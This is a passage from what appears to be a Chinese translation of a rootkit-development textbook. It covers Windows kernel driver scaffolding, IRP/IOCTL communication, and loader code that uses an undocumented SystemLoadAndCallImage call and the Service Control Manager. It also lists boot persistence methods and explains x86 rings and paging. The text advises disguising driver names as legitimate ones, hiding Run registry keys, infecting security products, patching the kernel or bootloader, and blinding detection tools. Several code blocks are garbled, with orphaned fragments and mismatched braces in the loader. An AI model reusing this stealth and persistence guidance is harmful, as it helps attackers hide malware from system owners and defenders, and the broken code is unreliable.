正如其名称所示，设备驱动程序通常是用于设备的。然而，通过驱动程序可以引入任何代码。一旦拥有了在内核中运行的代码，就能够完全访问内核和系统进程的全部特权内存空间。通过内核级访问，可以修改计算机上的所有软件代码和数据结构。

典型的模块结构包含一个入口点，有时还含有清理例程。例如，Linux 的可加载模块结构类似于以下形式：

```c
int init_module(void)
{
}

void cleanup_module(void)
{
}
```

在某些情况下，例如对于 Windows 设备驱动程序，入口点必须注册函数回调。其模块结构类似于以下形式：

```c
NTSTATUS DriverEntry(...)
{
    theDriver->DriverUnload = MyCleanupRoutine;
}

NTSTATUS MyCleanupRoutine()
{
}
```

清理例程并非总是必要的，因此 Windows 设备驱动程序将其设置为可选项。在希望卸载驱动程序时才需要清理例程。在许多情况下，rootkit 在置入系统之后可以驻留其中，无需卸载。但在开发过程中包含一个卸载例程是有用的，因为在 rootkit 的改进过程中可能需要加载最新的版本。

### 3.4 构建 Windows 设备驱动程序

第一个示例设计成运行于 Windows XP 和 Windows 2000 平台上的一个简化的设备驱动程序。它还不是真正的 rootkit，只是简单的“hello world”设备驱动程序。

```c
#include "ntddk.h"

NTSTATUS DriverEntry(IN PDRIVER_OBJECT theDriverObject,
    IN PUNICODE_STRING theRegistryPath)
{
    DbgPrint("Hello World !");
    return STATUS_SUCCESS;
}
```

上述代码看起来很简单，将其加载到内核中，调试语句会显示出信息。我们的 rootkit 示例由多项内容构成，以下各节分别对其进行介绍。

#### 3.4.1 设备驱动程序开发工具包

为了构建我们的 Windows 设备驱动程序，需要驱动程序开发工具包（Driver Development Kit，DDK）。各个 Windows 版本的 DDK 可从微软公司得到。有时需要 Windows 2003 版本的 DDK，可以使用这个 DDK 版本来构建 Windows 2000、Windows XP 和 Windows 2003 的驱动程序。

#### 3.4.2 构建环境

DDK 提供了两种不同的构建环境：检查（checked）构建和自由（free）构建环境。在开发设备驱动程序时使用检查构建环境，对于发行代码则使用自由构建环境。检查构建将调试检查信息编译到驱动程序中，所生成的驱动程序比自由构建版本大得多。大部分开发工作都应该使用检查构建，只有在测试最终产品时才切换到自由构建。

#### 3.4.3 文件

驱动程序源代码使用 C 语言编写，文件的扩展名是“.c”。为了开发第一个项目，先生成一个空目录（建议为 `C:\myrootkit`），将 `mydriver.c` 文件置入其中。然后将前述的“hello world”设备驱动程序代码复制到该文件中。还需要 `SOURCES` 文件和 `MAKEFILE` 文件。

- （1）`SOURCES` 文件

该文件应命名为全部由大写字母组成的 `SOURCES`，没有扩展名。`SOURCES` 文件应该包含以下代码：

```makefile
TARGETNAME=MYDRIVER
TARGETPATH=OBJ
TARGETTYPE=DRIVER
SOURCES=mydriver.c
```

`TARGETNAME` 变量控制驱动程序的命名。该名称可能会嵌入到二进制文件中，因此 `TARGETNAME` 不应采取诸如 `MY_EVIL_ROOTKIT_IS_GONNA_GET_YOU` 之类的名称。即使以后重新命名该文件，但上述字符串仍可能存在于二进制文件之中，从而被发现。

更好的驱动程序命名方法是使其看上去类似于合法的设备驱动程序，例如 `MSDIRECTX`、`MSVID_H424`、`IDE_HD41`、`SOUNDMGR` 以及 `H323FON`。

计算机上已经加载了许多设备驱动程序，有时只需通过检查这些现有驱动程序的列表并且对它们的名称略加变化，就可以得到较好的方案。

`TARGETPATH` 变量通常设成 `OBJ`，它控制文件在编译时的存储位置，驱动文件通常会放置在当前目录的 `objchk_xxx/i386` 子目录下。

`TARGETTYPE` 变量控制所编译的文件类型，创建驱动程序要使用 `DRIVER` 类型。

在 `SOURCES` 语句行上列出 `.c` 文件列表。若使用多行的话，则需要在每行（除了最后一行）结尾处放置“\”符号。例如：

```makefile
SOURCES= myfile1.c \
         myfile2.c \
         myfile3.c
```

注意在最后一行没有以反斜线字符结尾。

`INCLUDES` 变量是可选的，它指定了 include 文件所在的多个目录。例如：

```makefile
INCLUDES= c:\my_includes \
          ..\..\inc \
          c:\other_includes
```

若需要将库链接进来，则使用 `TARGETLIBS` 变量。一些 rootkit 驱动程序使用 NDIS 库，因此该行类似于以下形式：

```makefile
TARGETLIBS=$(BASEDIR)\lib\w2k\i386\ndis.lib

或

TARGETLIBS=$(DDK_LIB_PATH)\ndis.lib
```

在构建 NDIS 驱动程序时，可能需要在自身系统上寻找 `ndis.lib` 文件，并对到达该文件的路径进行硬编码。

`$(BASEDIR)` 变量指定了 DDK 的安装目录，`$(DDK_LIB_PATH)` 指定了默认库的安装位置。路径的其余部分会根据所用系统和 DDK 版本而有所区别。

#### （2）MAKEFILE 文件

最后创建一个名称全部由大写字母组成且没有扩展名的 `MAKEFILE` 文件。它的代码行上应包含以下内容：

```makefile
!INCLUDE $(NTMAKEENV)\makefile.def
```

#### （3）运行 build 实用程序

生成了 `MAKEFILE`、`SOURCES` 和 `.c` 文件之后，剩下的全部工作就是在 DDK 中完成。

启动检查构建环境后，在命令 shell 中将当前目录改为驱动程序目录，并输入命令 `build`。理想情况下不会出现错误，即可得到第一个驱动程序。提示：确保驱动程序目录路径中不包含空格，例如可放在 `c:\myrootkit`。

可在网站 `www.rootkit.com/vault/hoglund/basic_1.zip` 上找到包含已创建 `MAKEFILE` 和 `SOURCES` 文件的驱动程序示例。

#### （4）卸载例程

在创建驱动程序时，将 `theDriverObject` 参数传递给驱动程序主函数。它指向包含函数指针的数据结构，这些函数指针之一称为“卸载例程”。若设置了卸载例程，意味着可从内存中卸载驱动程序；若不设置，驱动程序可加载但不会卸载，需要重启机器以便从内存中删除。

当为驱动程序继续开发功能时，需要多次对其进行加载和卸载，因此应设置卸载例程，以便每次测试新版本时无需重启。

设置卸载例程并不难，先需要创建一个卸载函数，然后设置卸载指针：

```c
// BASIC DEVICE DRIVER
#include "ntddk.h"

// This is our unload function
VOID OnUnload(IN PDRIVER_OBJECT DriverObject)
{
    DbgPrint("OnUnload called\n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT theDriverObject,
                     IN PUNICODE_STRING theRegistryPath)
{
    DbgPrint("I loaded!");
    // Initialize the point to the unload function
    // in the DriverObject
    theDriverObject->DriverUnload = OnUnload;
    return STATUS_SUCCESS;
}
```

此时就可以在无需重启机器的情况下安全地加载和卸载驱动程序。

### 3.5 用户模式和内核模式的融合

rootkit 很容易同时包含用户模式和内核模式的组件。用户模式部分完成大多数功能（如联网和远程控制），而内核模式部分则执行潜行和访问。

大多数 rootkit 都需要内核级别的破坏活动，同时还提供复杂特性。由于这些复杂特性可能含有程序缺陷且还需要系统 API 库，因此用户模式方法是首选。

用户模式程序可通过多种方式与内核级驱动程序通信，最常见的是使用 I/O Control（IOCTL）命令。IOCTL 命令可以由程序员定义。

#### 3.5.1 I/O 请求报文

一个需要理解的设备驱动程序概念是 I/O 请求报文（I/O Request Packet, IRP），它只是包含数据缓冲区的数据结构。为了与用户模式的程序进行通信，Windows 设备驱动程序通常需要处理 IRP。处于用户模式的程序可以打开一个文件句柄并向其中写入信息。在内核中，这个写入操作表示为一个 IRP。因此若用户模式的程序向文件句柄中写入字符串“HELLO DRIVER!”，则内核将会创建一个包含了缓冲区和字符串“HELLO DRIVER!”的 IRP。用户模式和内核模式之间的通信可以通过这些 IRP 进行。

为了操作 IRP，内核驱动程序必须包含 IRP 的处理函数。和卸载例程的安装工作一样，只需在驱动程序对象中设置适当的函数指针：

```c
NTSTATUS OnStubDispatch(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    Irp->IoStatus.Status = STATUS_SUCCESS;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return STATUS_SUCCESS;
}

VOID OnUnload(IN PDRIVER_OBJECT DriverObject)
{
    DbgPrint("OnUnload called\n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT theDriverObject,
                     IN PUNICODE_STRING theRegistryPath)
{
    int i;
    theDriverObject->DriverUnload = OnUnload;
    for(i=0; i<IRP_MJ_MAXIMUM_FUNCTION; i++)
        theDriverObject->MajorFunction[i] = OnStubDispatch;
    return STATUS_SUCCESS;
}
```

在实际的驱动程序中，很可能会为每个主函数都创建一个单独的函数。例如，假定要处理 READ 和 WRITE 事件。当用户模式的程序使用驱动程序句柄来调用 `ReadFile` 或 `WriteFile` 时，会激活这些事件。更完整的驱动程序还会处理其他功能，例如关闭文件或发送 IOCTL 命令等，下面给出了主函数指针的一组示例：

```c
DriverObject->MajorFunction[IRP_MJ_CREATE] = MyOpen;
DriverObject->MajorFunction[IRP_MJ_CLOSE] = MyClose;
DriverObject->MajorFunction[IRP_MJ_READ] = MyRead;
DriverObject->MajorFunction[IRP_MJ_WRITE] = MyWrite;
DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = MyIoControl;
```

对于每个被处理的主函数，驱动程序都需要指定一个将要调用的函数。例如，驱动程序可能包含以下函数：

```c
NTSTATUS MyOpen(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    // do something
    return STATUS_SUCCESS;
}

NTSTATUS MyClose(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    // do something
    return STATUS_SUCCESS;
}

NTSTATUS MyRead(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    // do something
    return STATUS_SUCCESS;
}

NTSTATUS MyWrite(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    // do something
    return STATUS_SUCCESS;
}

NTSTATUS MyIoControl(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    PIO_STACK_LOCATION IrpSp;
    ULONG FunctionCode;

    IrpSp = IoGetCurrentIrpStackLocation(Irp);
    FunctionCode = IrpSp->Parameters.DeviceIoControl.IoControlCode;

    switch (FunctionCode)
    {
        // do something
    }

    return STATUS_SUCCESS;
}
```

```c
... // For driver extension
...
&deviceNameUnicodeString,
0x00001234,
0,
TRUE,
&g_rootkitDevice);
```

在上述代码片段中，`DriverEntry` 例程创建了一个名为 `MyDevice` 的设备，注意在函数调用中使用了完全限定（fully qualified）路径：

```c
const WCHAR deviceNameBuffer[] = L"\\Device\\MyDevice";
```

前缀 `L` 表示以 UNICODE 编码定义字符串，这是 API 调用所需的。一旦创建了设备，用户模式的程序可以将其像文件一样打开：

```c
hDevice = CreateFile("\\\\.\\MyDevice",
                     GENERIC_READ | GENERIC_WRITE,
                     0,
                     NULL,
                     OPEN_EXISTING,
                     FILE_ATTRIBUTE_NORMAL,
                     NULL);

if ((hDevice == (HANDLE)-1))
    return FALSE;
```

一旦打开了文件句柄，它就可以在用户模式的函数如 `ReadFile` 和 `WriteFile` 中充当参数，也可以用于进行 IOCTL 调用，这些操作会导致生成要在驱动程序中处理的 IRP。

从用户模式中很容易打开和使用文件句柄，下面分析如何通过符号链接使文件句柄更加易用。

#### 3.5.2 创建文件句柄

另一个需要理解的概念是文件句柄。为了从用户模式的程序中使用内核驱动程序，用户模式的程序必须打开一个驱动程序句柄。这只有当驱动程序已经注册了一个指定的设备名之后才能进行。一旦注册完成，用户模式的程序就可以将指定设备像文件一样打开。这非常类似于许多 UNIX 系统上的设备工作方式——将所有设备都像文件一样对待。

对于我们的示例，内核驱动程序使用下面的代码来注册设备：

```c
const WCHAR deviceNameBuffer[] = L"\\Device\\MyDevice";
PDEVICE_OBJECT g_rootkitDevice; // Global pointer to our device object

NTSTATUS DriverEntry(_IN PDRIVER_OBJECT DriverObject,
                     _IN PUNICODE_STRING RegistryPath)
{
    NTSTATUS ntStatus;
    UNICODE_STRING deviceNameUnicodeString;

    // Set up our name and symbolic link
    RtlInitUnicodeString(&deviceNameUnicodeString, deviceNameBuffer);

    // Set up the device
    ntStatus = IoCreateDevice(DriverObject, ...);
}
```

#### 3.5.3 添加符号链接

第三个关于设备驱动程序的重要概念是符号链接。为了便于用户模式的程序打开文件句柄，一些驱动程序使用了符号链接，这个步骤不是必需的，却是有益的：符号名更便于记忆。这种驱动程序会创建一个设备，然后调用 `IoCreateSymbolicLink` 来创建符号链接，有些 rootkit 采用了这种技术。

```c
..., &deviceNameUnicodeString);
```

```c
const WCHAR deviceLinkBuffer[] = L"\\DosDevices\\vicesys2";
const WCHAR deviceNameBuffer[] = L"\\Device\\vicesys2";

NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject,
                     IN PUNICODE_STRING RegistryPath)
{
    NTSTATUS ntStatus;
    UNICODE_STRING deviceNameUnicodeString;
    UNICODE_STRING deviceLinkUnicodeString;

    // Set up our name and symbolic link
    RtlInitUnicodeString(&deviceNameUnicodeString, deviceNameBuffer);
    RtlInitUnicodeString(&deviceLinkUnicodeString, deviceLinkBuffer);

    // Set up the device
    ntStatus = IoCreateDevice(...);
    if (NT_SUCCESS(ntStatus)) {
        ntStatus = IoCreateSymbolicLink(&deviceLinkUnicodeString, ...);
    }
}
```

在创建了符号链接之后，用户模式的程序可以使用字符串 `"\\\\.\\MyDevice"` 来打开设备句柄。是否创建符号链接实际上并不重要，它只是使得用户模式的代码更容易找到驱动程序，但这不是必需的。

```c
hDevice = CreateFile("\\\\.\\MyDevice",
                     GENERIC_READ | GENERIC_WRITE,
                     0,
                     NULL,
                     OPEN_EXISTING,
                     FILE_ATTRIBUTE_NORMAL,
                     NULL);
if (hDevice == ((HANDLE)-1))
    return FALSE;
```

前面已经讨论了如何使用文件句柄在用户模式和内核模式之间进行通信，下面介绍如何加载设备驱动程序。

## 3.6 加载 rootkit

不可避免地，需要从用户模式的程序中加载驱动程序。例如，在侵入计算机系统时会希望复制某个部署程序，该程序在运行时将 rootkit 加载到内核中。加载程序通常会将 `.sys` 文件的副本解压缩到硬盘上，然后发出命令将其加载到内核中。当然，要使得这些操作有效，程序必须以“管理员”权限运行。将驱动程序加载到内核中有许多方式。下面具体介绍两种有效的方法：草率方式（quick and dirty）和正确方式（The Right Way）。

#### 3.6.1 草率方式

通过未在文档中说明的 API 调用，可以在无须创建任何注册表键的情况下将驱动程序加载到内核中。该方法的问题在于驱动程序是可分页的。可分页是指可以交换到磁盘上的内存；若驱动程序是可分页的，则它的任何组成部分都可以被换出（即从内存交换到磁盘上）。有时当内存被换出时，就再无法访问它，尝试对其进行访问会导致一种声名狼藉的系统崩溃——蓝屏死机（Blue Screen of Death, BSOD）。这种加载方法真正安全的唯一方法是围绕分页问题专门对其进行设计。

使用这种加载方法的 rootkit 示例是 migbot，它可以从 rootkit.com 网站上得到。migbot 非常简单，它将全部操作代码都复制到不分页的内存池中，因此驱动程序是分页的这个事实不会影响 migbot 所执行的动作。

migbot 的源代码可以从网址 `www.rootkit.com/vault/hoglund/migbot.zip` 下载。

加载方法通常称为 `SYSTEM LOAD AND CALL IMAGE`，因为这是在文档中未说明的 API 调用的名称，migbot-loader 的加载代码如下所示：

```c
// load a sys file as a driver using undocumented method
bool load_sysfile()
{
    SYSTEM_LOAD_AND_CALL_IMAGE GregsImage;
    WCHAR daPath[] = L"\\??\\C:\\MIGBOT.SYS";

    // get DLL entry points
    if (!(RtlInitUnicodeString = (PRTL_INITUNICODESTRING)
          GetProcAddress(GetModuleHandle("ntdll.dll"), "RtlInitUnicodeString")))
        return false;

    if (!(ZwSetSystemInformation = (ZWSETSYSTEMINFORMATION)
          GetProcAddress(GetModuleHandle("ntdll.dll"), "ZwSetSystemInformation")))
        return false;

    RtlInitUnicodeString(&(GregsImage.ModuleName), daPath);
    if (!NT_SUCCESS(ZwSetSystemInformation(SystemLoadAndCallImage,
        &GregsImage, sizeof(SYSTEM_LOAD_AND_CALL_IMAGE))))
        return false;

    return true;
}
```

上述代码在用户模式下运行，所用的 `.sys` 文件是 `C:\migbot.sys`。

migbot 没有提供卸载特性。加载它之后，只有在系统重启时才能卸载它。可以将其看作是“发后不理”（fire-and-forget）操作。该方法的优点是它比秘密备份协议更加隐秘，缺点在于它使得 rootkit 的设计复杂化。对于 migbot 来说，这是一种好的解决方法；但对于具有许多钩子的复杂 rootkit 来说，支持该方法需要太多的开销。

#### 3.6.2 正确方式

已建立的驱动程序正确加载方法是使用服务控制管理器（Service Control Manager, SCM）。使用 SCM 需要创建注册表键，当驱动程序通过 SCM 加载时，它是不可分页的。这意味着回调函数、IRP 处理函数以及其他重要代码将不会从内存中消失，不会被换出，也不会导致蓝屏死机，这是一个好的特性。

下面的示例代码通过 SCM 方法基于名称来加载任意驱动程序。它注册并启动驱动程序。您可以根据自身意愿在自己的加载程序中引用该代码：

```c
bool util_load_sysfile(char *theDriverName)
{
    char aPath[1024];
    char aCurrentDirectory[512];
    SC_HANDLE sh = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if (!sh) {
        return false;
    }

    GetCurrentDirectory(512, aCurrentDirectory);
    _snprintf(aPath, 1022, "%s\\%s.sys", aCurrentDirectory, theDriverName);
    printf("loading %s...", aPath);

    SC_HANDLE th = CreateService(sh,
        theDriverName,
        theDriverName,
        ...);
}
```

```c
SERVICE_ALL_ACCESS,
SERVICE_KERNEL_DRIVER,
SERVICE_DEMAND_START,
SERVICE_ERROR_NORMAL,
aPath,
NULL,
NULL,
NULL,
NULL,
NULL);
if (!rh)
{
    if (GetLastError() == ERROR_SERVICE_EXISTS)
    {
    }
    else
    {
        // service exists
        rh = OpenService(sh,
            theDriverName,
            SERVICE_ALL_ACCESS);
        if (!rh)
        {
            CloseServiceHandle(sh);
            return false;
        }
    }
    CloseServiceHandle(sh);
    return false;
}
// start the drivers
if (rh)
{
    if (0 == StartService(rh, 0, NULL))
    {
        if (ERROR_SERVICE_ALREADY_RUNNING == GetLastError())
        {
            // no real problem
        }
    }
    CloseServiceHandle(sh);
    CloseServiceHandle(rh);
}

return false;
}
}
CloseServiceHandle(sh);
CloseServiceHandle(rh);
}
return true;
}
```

至此已经学习了两种将驱动程序或 rootkit 加载到核心内存中的方法，OS 的全部权限都已掌握在手。

### 3.7 系统重启后的考验

rootkit 驱动程序必须在系统启动时加载。对这个问题进行一般性的考虑时，可以发现系统启动时会加载许多不同的软件组件，只要 rootkit 与下文中某个启动事件相关联，它也会加载进来。

- 1. 使用注册表键“Run”（古老的可靠方法）

注册表键“Run”（及其派生键）可用于在启动时加载任意程序，它也可以解压缩 rootkit 并加载。rootkit 加载后可以隐藏注册表键“Run”的值，使得自身无法被检测。所有的病毒扫描器都检查该键，因此这种方法具有高度风险。然而，一旦加载了 rootkit，就可以将该键的值隐藏起来。

- 2. 使用特洛伊木马或被感染的文件

类似于病毒感染文件的方式，在启动时加载的任何 .sys 文件或可执行文件都可以被替换，加载程序的代码也可以被插入。具有讽刺意味的是，感染的最佳目标之一就是病毒扫描或安全产品。安全产品通常在系统启动时开始运行，特洛伊木马 DLL 则可以被注入到搜索路径中，或者只是简单地替换或“感染”现有的 DLL。

- 3. 使用 .ini 文件

可以修改 ini 文件来执行程序，许多程序都具有初始化文件，它们能够在启动时运行命令或指定要加载的 DLL，通过这种方式使用的文件示例是 win.ini。

- 4. 注册成为驱动程序

rootkit 可以将自身注册为在启动时加载的驱动程序，这需要创建注册表键，一旦加载了 rootkit 之后，也可以将该键隐藏起来。

- 5. 注册为现有程序的附加件

间谍件常用的一种方法是向 Web 浏览应用程序中添加扩展（例如，伪装成搜索栏的形式）。在应用程序加载时也加载了该扩展，这种方法需要启动相应的应用程序；但如果在必须激活 rootkit 之前能够启动应用程序的话，则该方法对于加载 rootkit 来说是有效的。它的缺陷是已存在着许多的广告件扫描器，它们可能检测到应用程序的这些扩展。

- 6. 修改磁盘上的内核

可以直接修改内核并将其保存到磁盘上。对启动引导程序必须进行多处修改，以使内核能够通过校验和的完整性检查。这种方法非常有效，因为内核被永久地修改，并且无需注册驱动程序。

- 7. 修改启动引导程序

可以修改启动引导程序，在内核加载之前对其打补丁。该方法的优点是对系统进行离线分析时，内核文件本身看不出修改。然而，使用恰当的工具仍可以检测到对启动引导程序进行的修改。

启动时加载的方法有许多种，以上仅仅是其中的一部分，只要发挥创造力去思考，一定能想到更好的加载方法。

## 四、硬件相关问题

软件和硬件是形影不离的。没有软件，硬件只是毫无生命力的硅晶体；而没有硬件，软件也无法存在。软件最终控制着计算机，但在表象之下却是由硬件实现了软件代码。

另外，硬件是软件安全的最终实地部件。没有硬件支持，软件将是彻底不安全的。许多资料在介绍软件开发时都不曾提及过底层硬件，这对于企业应用的开发者来说也许已足够，但对于 rootkit 开发者来说还不行。rootkit 开发者需要面对逆向工程问题、手工编码的汇编语言，以及对系统上的软件工具的高技术性攻击，理解底层硬件有助于解决这些难题。

所有的访问控制最终都是由硬件实现的。例如，流行的进程隔离（process separation）概念在 Intel x86 硬件上通过“环（ring）”机制来实施。若 Intel 的 CPU 没有访问控制机制，则所有在系统上执行的软件都会被信任，这意味着任何程序的崩溃都可能导致整个系统随之崩溃，任何程序都能够读写硬件、访问任意文件，或修改其他进程的内存。这听起来很熟悉。即使 Intel 系列处理器具有访问控制能力的历史已有多年，但是微软公司直到发布 Windows NT 之后才利用了这些能力。

## 4.1 环0级

Intel x86 微芯片系列使用环概念来实施访问控制，环有 4 个级别：环0是最高权限的，环3是最低权限的。每个环都内部保存为一个数字，微芯片上实际并没有真正的物理环。

Windows 操作系统中的所有内核代码都在环0级别上运行。因此，在内核中运行的 rootkit 也被看作是在环0级别上运行。不在内核中运行的用户模式程序（例如电子制表软件程序）有时称为环3级程序。包括 Windows 和 Linux 在内的许多操作系统在 Intel x86 微芯片上只使用环0和环3，而不使用环1和环2。由于系统中环0的权限最高、能力最强大，因此对于 rootkit 开发者来说，宣称自己的代码在环0级别上运行是一种自豪的展示。

CPU 负责跟踪为软件代码和内存分配环的情况，并在各环之间实施访问限制。通常，每个软件程序都会获得一个环编号，它不能访问任何具有更小编号的环。例如，环3的程序不能访问环0的程序。若环3的程序试图访问环0的内存，则 CPU 将发出一个中断。在多数情况下，操作系统将不会允许这种访问，该访问尝试甚至会导致攻击程序的终止。

大量代码在幕后控制着这种访问限制，也有一些代码允许程序在特定环境下访问更低编号的环。例如，为了将打印机驱动程序加载到内核中，管理员程序（环0级）需要访问被加载的设备驱动程序（在环0级的内核中）。然而，内核模式的 rootkit 加载后，它的代码在环0级别上执行，这些访问限制将不再是问题。

许多可能检测到 rootkit 的工具都作为管理程序在环3级别上运行，rootkit 开发者应该理解如何利用 rootkit 的权限高于管理工具这个事实。例如，rootkit 可以使用该事实来向工具隐藏自身或导致工具失效。另外，rootkit 通常是由加载程序来安装，这些加载程序是环3级的应用程序。为了将 rootkit 加载到内核中，这些加载程序使用了特殊的函数调用，使得它们能够访问环0级别。

除了内存访问限制之外，还存在着其他安全机制。某些指令是具有特权的，只能在环0级使用。这些指令通常用于更改 CPU 的行为，或者直接访问硬件。例如，下列 x86 指令只允许在环0级别上：

- `cli` — 停止中断的处理（在当前 CPU 上）
- `sti` — 启动中断的处理（在当前 CPU 上）
- `in` — 从硬件端口读出数据
- `out` — 将数据写入硬件端口

在环0级别上执行 rootkit 有许多好处；这样的 rootkit 不仅能够操纵硬件，还能够操纵其他软件的运行环境，这对于在计算机上进行潜行操作是关键的。

在讨论了 CPU 如何实施访问控制之后，下面分析 CPU 如何对重要数据进行跟踪。

## 4.2 CPU表和系统表

CPU 除了负责跟踪环的信息之外，还负责制定其他许多决策。例如，CPU 必须决定当中断发生、软件程序崩溃、硬件发出注意信号、用户模式的程序试图与内核模式的程序通信，以及多线程程序切换线程时需要执行的动作。显然操作系统代码必须处理这类事情，但总是 CPU 最先处理它们。

对于每个重要事件，CPU 必须指出处理该事件所用的软件例程。由于所有软件例程都存在于内存中，因此 CPU 有必要存储重要软件例程的地址。更具体地，CPU 需要知道在什么位置可以找到重要软件例程的地址。CPU 内部无法存储所有地址，因此它必须对其取值进行查询，这个操作通过地址表完成。当中断等事件发生时，CPU 在一个表中查询该事件，并寻找处理该事件的某个软件的相应地址。CPU 需要的唯一信息是这些表在内存中的基地址。

- 全局描述符表（Global Descriptor Table，GDT），用于映射地址。
- 本地描述符表（Local Descriptor Table，LDT），用于映射地址。
- 页目录（Page Directory），用于映射地址。
- 中断描述符表（Interrupt Descriptor Table，IDT），用于寻找中断处理程序。

除了 CPU 表之外，操作系统本身也保存一批表。CPU 不直接支持这些由 OS 实现的表，因此 OS 通过特殊功能和代码来管理它们；其中一个重要的表是系统服务调度表（System Service Dispatch Table，SSDT）。Windows OS 用于处理系统调用，这些表具有多种使用方式。以下各节介绍这些表并分析它们是如何工作的，并且针对 rootkit 开发者为了提供潜行操作或捕获数据，如何修改或钩住这些表给出了一些建议。

### 4.3 内存页

全部内存都划分成页面，如同在一本书中一样。一个页面只能存储固定数目的字符，每个进程都可以拥有一个单独的查询表来寻找这些内存页。

将内存想像为一个巨大的图书馆，其中每个进程都单独拥有自己的卡片目录以进行查询，不同的查询表会导致每个进程查看的内存视图完全不同。

内存地址 0x00401122 的内容为“GREG”，而另一个进程读出同一内存地址的内容可以为“JAMIE”，每个进程都有唯一的内存“视图”。

访问控制机制作用于内存页面。继续使用关于图书馆的比喻，假设 CPU 是一个专横的图书管理员，一个进程只允许查看馆内的数本书。为了读出或写入内存，进程首先必须为正在处理的内存找到正确的“图书”，然后找到精确“页面”。若 CPU 不批准所请求的图书或页面，则该访问被拒绝。

通过这种方式寻找页面的查询过程是耗时且复杂的，这个过程中多个阶段实施了访问控制。首先，CPU 检查进程是否能够打开正在被处理的图书（描述符检查）；然后 CPU 检查进程是否能够读出书中的特定章节（页目录检查）；最后 CPU 检查进程是否能够读出该章节中的特定页（页面检查），这是相当巨大的工作量。

进程只有通过了所有的安全检查，才可以读出一个页面。即便 CPU 检查都通过，但页面还可能标记为只读性质。这意味着进程能够读出页面，但是无法向其中写入。数据的完整性通过这种方式得以维持。rootkit 开发者就像图书馆里面的野蛮人一样，试图在所有这些书上胡乱涂写——因此我们必须尽可能地学会关于操作访问控制的知识。

#### 4.3.1 内存访问检查

为了访问内存页面，x86 处理器依次执行以下检查：

- **描述符（或段）检查**：通常要访问全局描述符表（GDT），并检查段描述符（segment descriptor）。段描述符包含一个称为描述符权限级别（Descriptor Privilege Level，DPL）的值。DPL 包含了调用进程所属的环编号（0到3）。若 DPL 需求低于调用进程的环级别（有时称为当前权限级别 Current Privilege Level，CPL），则访问被拒绝且内存检查终止。
- **页目录检查**：对整个页表（即整个内存页范围）需要检查用户/超级用户位。若该位设置为0，则只有“超级用户”程序（环0、1和2）能够访问该内存页范围。若调用进程不是“超级用户”，则内存检查终止。若该位设置为1，则任何程序都能访问该内存页范围。
- **页面检查**：对单个内存页面执行该检查。若已成功通过页目录检查，则对正在处理的单个页面进行页检查。类似于页目录，对每个页面都要检查一个用户/超级用户位。若该位设置为0，则只有“超级用户”程序（环0、1和2）能够访问该页面；若该位设置为1，则任何程序都能访问该页面。只有当进程能够到达并通过本检查并且没有任何访问禁止，它才可以访问内存页。

Windows 系列操作系统并不真正使用描述符检查。相反，Windows 只依赖于环0和环3（有时称为内核模式和用户模式）。因此可以从使用页表检查中的用户/超级用户位来控制对内存的访问。内核模式的程序运行在环0上，总是能够访问内存。用户模式的程序则运行在环3上，只能访问标记为“user”的内存。

#### 4.3.2 分页和地址转换

内存保护机制的用途不仅限于安全。大多数现代操作系统都支持虚存，这使得系统上的每个程序都拥有自己的地址空间。它还允许程序使用远比实际可用“内存”多得多的内存。例如，RAM 大小为 256MB 的计算机不会限制每个程序只能使用 256MB 内存。程序如果需要的话，能够很容易地使用 1GB 内存。额外的内存只需存储在磁盘上的分页文件（paging file）中。虚存允许多个进程在所用的内存总量大于已安装的物理 RAM 时同时执行，并且每个进程都拥有自己的内存空间。

内存页可以标记为页换出（paged out），即存储在磁盘上而不是 RAM 中。当搜索这种内存页时，处理器将会中断。中断处理程序将该页读回到内存之中，并将其标记为页换入（paged in）。在任一特定时刻，大多数系统只允许将全部可用内存的一小部分进行页换入。物理 RAM 较少的计算机需要一个经常被访问的很大的分页文件。反之，物理 RAM 越多意味着访问分页文件越少。

每当程序读取内存时，都必须指定一个地址。对于每个进程，该地址必须转换为实际的物理内存地址。这是重要的：进程使用的地址与数据驻留的实际物理地址并不一致，需要通过转换例程来标识正确的物理存储位置。

例如，若 NOTEPAD.EXE 搜索虚地址 0x0041FF10 的内存内容，则实际的物理地址可以转换成例如 0x01EE2F10。若 NOTEPAD.EXE 执行指令“mov eax, 0x0041FF10”，则读入到 EAX 中的值实际会存储在物理地址 0x01EE2F10。该地址从虚地址转换成物理地址。

#### 4.3.3 多个进程使用多个页目录

理论上，操作系统可以通过单个页目录来维护多个进程、进程间的内存保护以及磁盘上的分页文件。但是，如果只存在着一个页目录，则虚存将只有一个转换映射。这意味着所有进程都必须共享一个内存空间。在 Windows NT/2000/XP/2003 系统中，每个进程都有自己的内存空间——它们并不共享。

大多数可执行文件的起始地址是 0x00400000。多个进程如何能够使用同一个虚拟地址，而不会在物理内存中发生冲突？答案是使用多个页目录。

系统上的每个进程都维护唯一的页目录，都拥有自己私有的 CR3 寄存器的值，这意味着每个进程都有一个独立且唯一的虚存映射。因此，两个不同的进程可以同时访问内存地址 0x00400000，但将其转换成两个独立的物理内存地址。这也是为何一个进程无法查看另一个进程内存的原因。

尽管每个进程都有唯一的页表，但通常所有进程对 0x7FFFFFFF 以上的内存空间都进行同样的映射。该内存范围是为内核保留的，而内核内存不管哪个进程在运行都是一致的。

即使在环0级别上运行时，也会有一个活动进程上下文，它包括该进程的机器状态（例如保存的寄存器值）、进程的环境、进程的安全令牌以及其他参数。为了便于讨论，它还包含 CR3 寄存器，从而也包含了活动进程的页目录。rootkit 开发者应该考虑到对进程页表的改动不仅会在用户模式中影响该进程，还会在该进程处于上下文时影响到内核，这可以用于高级潜行技术。

#### 4.3.4 进程和线程

